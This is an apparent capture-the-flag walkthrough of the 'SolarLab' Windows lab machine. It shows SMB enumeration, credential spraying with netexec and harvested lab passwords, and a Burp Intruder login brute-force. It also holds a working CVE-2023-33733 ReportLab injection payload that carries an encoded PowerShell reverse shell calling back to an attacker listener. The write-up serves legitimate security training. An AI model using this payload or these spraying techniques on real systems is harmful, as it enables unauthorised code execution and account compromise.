






`Box: Windows`

`Level: Medium`
### Index
1. [Box_Info](#Box_Info)
2. [Initial_Nmap](#Initial_Nmap)
3. [Web_Enumerations](#Web_Enumerations)
	1. [NetExec_Rid_Brute](#NetExec_Rid_Brute)
	2. [Performing_SMB_Enum](#Performing_SMB_Enum)
	3. [Generating_Username_Using_username_Anarchy](#Generating_Username_Using_username_Anarchy)
	4. [NetExec_On_Above_Generated_Usernames](#NetExec_On_Above_Generated_Usernames)
	5. [Hydra_Login_Page_Bruteforce_failed_Switch_to_Burp_Intruder](#Hydra_Login_Page_Bruteforce_failed_Switch_to_Burp_Intruder)
4. [Grabbing_User_Flag](#Grabbing_User_Flag)
### Box_Info
```
SolarLab is a medium Windows machine that starts with a webpage featuring a business site. Moreover, an SMB share is accessible using a guest session that holds files with sensitive information for users on the remote machine. An attacker can extract valid credentials from this file and log in to a page allowing employees to fill out forms for company purposes. These forms are turned into PDFs using the `ReportLab` library, which is vulnerable to [CVE-2023-33733](https://nvd.nist.gov/vuln/detail/CVE-2023-33733). After some exploit development/modification, the attacker can get code execution as the user `blake` on the remote machine. Further enumeration of the remote machine, reveals that `Openfire` is installed and running locally. By using a SOCKS tunnel, the attacker can access the Administrator Console for Openfire. It turns out, that the version installed, is vulnerable to [CVE-2023-32315](https://nvd.nist.gov/vuln/detail/CVE-2023-32315) which allows the attacker to bypass the authentication screen, upload a malicious plugin, and get code execution as the `openfire` user. The `openfire` user can read the logs from when the server was installed and extract all the necessary information to crack the Administrator&amp;#039;s password and it turns out that this password is re-used for the local `Administrator` account.
```
### Initial_Nmap
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/SolarLab.htb]
└─# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.11.16                        
PORT     STATE SERVICE       VERSION
80/tcp   open  http          nginx 1.24.0
|_http-title: SolarLab Instant Messenger
|_http-server-header: nginx/1.24.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
6791/tcp open  http          nginx 1.24.0
|_http-server-header: nginx/1.24.0
	|_http-title: Did not follow redirect to http://report.solarlab.htb:6791/
7680/tcp open  pando-pub?
```
adding `report.solarlab.htb` into hosts file.
### Web_Enumerations

Three Names out there. Let's prepare a wordlist
###### NetExec_Rid_Brute
```
 netexec smb 10.10.11.16 -u 'guest' -p '' --rid-brute 5000
SMB         10.10.11.16     445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\guest: 
SMB         10.10.11.16     445    SOLARLAB         500: SOLARLAB\Administrator (SidTypeUser)
SMB         10.10.11.16     445    SOLARLAB         501: SOLARLAB\Guest (SidTypeUser)
SMB         10.10.11.16     445    SOLARLAB         503: SOLARLAB\DefaultAccount (SidTypeUser)
SMB         10.10.11.16     445    SOLARLAB         504: SOLARLAB\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.11.16     445    SOLARLAB         513: SOLARLAB\None (SidTypeGroup)
SMB         10.10.11.16     445    SOLARLAB         1000: SOLARLAB\blake (SidTypeUser)
SMB         10.10.11.16     445    SOLARLAB         1001: SOLARLAB\openfire (SidTypeUser)
```

Looking at the second line `SOLARLAB\blake`. The username format would be just first name. Let's prepare the simple wordlist.
```
└─# cat potential_user 
blake
claudia
alexander
```
###### Performing_SMB_Enum
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/SolarLab.htb]
└─# netexec smb 10.10.11.16 -u potential_user -p '' --shares 
SMB         10.10.11.16     445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.10.11.16     445    SOLARLAB         [-] solarlab\blake: STATUS_LOGON_FAILURE 
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\claudia: (Guest)
SMB         10.10.11.16     445    SOLARLAB         [*] Enumerated shares
SMB         10.10.11.16     445    SOLARLAB         Share           Permissions     Remark
SMB         10.10.11.16     445    SOLARLAB         -----           -----------     ------
SMB         10.10.11.16     445    SOLARLAB         ADMIN$                          Remote Admin
SMB         10.10.11.16     445    SOLARLAB         C$                              Default share
SMB         10.10.11.16     445    SOLARLAB         Documents       READ            
SMB         10.10.11.16     445    SOLARLAB         IPC$            READ            Remote IPC
```

Looks like we have `Documents` share that is readable.
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/SolarLab.htb]
└─# smbclient -U '' //10.10.11.16/Documents
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Fri Apr 26 10:47:14 2024
  ..                                 DR        0  Fri Apr 26 10:47:14 2024
  concepts                            D        0  Fri Apr 26 10:41:57 2024
  desktop.ini                       AHS      278  Fri Nov 17 05:54:43 2023
  details-file.xlsx                   A    12793  Fri Nov 17 07:27:21 2023
  My Music                        DHSrn        0  Thu Nov 16 14:36:51 2023
  My Pictures                     DHSrn        0  Thu Nov 16 14:36:51 2023
  My Videos                       DHSrn        0  Thu Nov 16 14:36:51 2023
  old_leave_request_form.docx         A    37194  Fri Nov 17 05:35:57 2023

	7779839 blocks of size 4096. 1951308 blocks available
```

```
smb: \> get old_leave_request_form.docx 
getting file \old_leave_request_form.docx of size 37194 as old_leave_request_form.docx (227.0 KiloBytes/sec) (average 227.0 KiloBytes/sec)
smb: \> get details-file.xlsx 
getting file \details-file.xlsx of size 12793 as details-file.xlsx (96.8 KiloBytes/sec) (average 168.9 KiloBytes/sec)
smb: \concepts\> get Training-Request-Form.docx 
getting file \concepts\Training-Request-Form.docx of size 161337 as Training-Request-Form.docx (932.3 KiloBytes/sec) (average 450.6 KiloBytes/sec)
smb: \concepts\> get Travel-Request-Sample.docx 
getting file \concepts\Travel-Request-Sample.docx of size 30953 as Travel-Request-Sample.docx (230.7 KiloBytes/sec) (average 401.7 KiloBytes/sec)
```

Getting those 4 files (docx and xlsx). Opening the XLS file reveals few passwords

Now that we have got few usernames here. Let's make a potential username file using [username-anarchy](https://github.com/urbanadventurer/username-anarchy)
###### Generating_Username_Using_username_Anarchy
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools/username-anarchy]
└─# cat /home/ringbuffer/Downloads/SolarLab.htb/Users_From_Web
Alexander Knight
Claudia Springer
Blake Byte
```
Creating the name of the potential username found through the web
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools/username-anarchy]
└─# ./username-anarchy --input-file /home/ringbuffer/Downloads/SolarLab.htb/Users_From_Web    
alexander
alexanderknight
alexander.knight
alexande
alexknig
alexanderk
a.knight
aknight
kalexander
k.alexander
knighta
knight
knight.a
knight.alexander
ak
claudia
<!----SNIPPED----!>
```

###### NetExec_On_Above_Generated_Usernames

Let's first try to use the above generated username and the obtained password to see if we can have any authenticated SMB access
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/SolarLab.htb]
└─# cat potential_passwords                                   
al;ksdhfewoiuh
dkjafblkjadsfgl
d398sadsknr390
ThisCanB3typedeasily1@
danenacia9234n
dadsfawe9dafkn
```

```
──(root㉿kali)-[/home/ringbuffer/Downloads/SolarLab.htb]
└─# netexec smb 10.10.11.16 -u Users -p potential_passwords --continue-on-success
SMB         10.10.11.16     445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\alexander:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\alexanderknight:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\alexander.knight:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\alexande:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\alexknig:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\alexanderk:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\a.knight:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\aknight:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\kalexander:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\k.alexander:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\knighta:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\knight:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\knight.a:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\knight.alexander:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\ak:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\claudia:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\claudiaspringer:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\claudia.springer:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\claudias:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\clauspri:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\c.springer:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\cspringer:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\sclaudia:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\s.claudia:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\springerc:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\springer:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\springer.c:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\springer.claudia:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\cs:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [-] solarlab\blake:al;ksdhfewoiuh STATUS_LOGON_FAILURE 
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\blakebyte:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\blake.byte:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\blakebyt:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\blakbyte:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\blakeb:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\b.byte:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\bbyte:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\bblake:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\b.blake:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\byteb:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\byte:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\byte.b:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\byte.blake:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\bb:al;ksdhfewoiuh (Guest)
SMB         10.10.11.16     445    SOLARLAB         [-] solarlab\blake:dkjafblkjadsfgl STATUS_LOGON_FAILURE 
SMB         10.10.11.16     445    SOLARLAB         [-] solarlab\blake:d398sadsknr390 STATUS_LOGON_FAILURE 
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\blake:ThisCanB3typedeasily1@ 

```

Almost Every users has a Guest access other than the last one `[+] solarlab\blake:ThisCanB3typedeasily1@`. Let's get into SMB with that credentials.

```
──(root㉿kali)-[/home/ringbuffer/Downloads/SolarLab.htb]
└─# netexec smb 10.10.11.16 -u blake -p 'ThisCanB3typedeasily1@' --shares              
SMB         10.10.11.16     445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.10.11.16     445    SOLARLAB         [+] solarlab\blake:ThisCanB3typedeasily1@ 
SMB         10.10.11.16     445    SOLARLAB         [*] Enumerated shares
SMB         10.10.11.16     445    SOLARLAB         Share           Permissions     Remark
SMB         10.10.11.16     445    SOLARLAB         -----           -----------     ------
SMB         10.10.11.16     445    SOLARLAB         ADMIN$                          Remote Admin
SMB         10.10.11.16     445    SOLARLAB         C$                              Default share
SMB         10.10.11.16     445    SOLARLAB         Documents       READ            
SMB         10.10.11.16     445    SOLARLAB         IPC$            READ            Remote IPC
```
Still we do not have any WRITE access.

Upon Visiting `http://solarlab.htb:6791` We got the login page.

###### Hydra_Login_Page_Bruteforce_failed_Switch_to_Burp_Intruder

I tried to use Hydra and for every single way it was throwing every combination as valid credentials. So I use Burp's Intruder feature and set the Attack Type as "Cluster Bomb" in the Burp Suite 


Added both the parameters and then from the second tab `Payload`, Put two different wordlist.


After starting an attack, I found one entry for which there was a `302 Redirect` HTTP Response Code



### Grabbing_User_Flag
Now click on Leave Request Form `http://report.solarlab.htb:6791/leaveRequest`, Intercept the HTTP request and put the following payload in the phone number field.
```
<para>

              <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANQAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">

                exploit

                </font>

            </para>
```

If you are doing this box again then make sure the powershell payload match with the tun0 ip.

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/SolarLab.htb]
└─# nc -lvnp 4444      
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.16] 60485

PS C:\Users\blake\Documents\app> whoami
solarlab\blake
PS C:\Users\blake\Documents\app> 
```
Grab your user flag

### Privilege Escalation
###### winPEAS_Findings
```
OS Name: Microsoft Windows 10 Pro
OS Version: 10.0.19045 N/A Build 19045
ProductName: Windows 10 Pro

################# Scheduled Applications --Non Microsoft--
# Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries                                                                                                                                                            
    (SOLARLAB\Administrator) Start Internal App: C:\Users\blake\Documents\start-app.bat 
    Permissions file: blake [AllAccess]
    Permissions folder(DLL Hijacking): blake [AllAccess]
    Trigger: At system startup
```

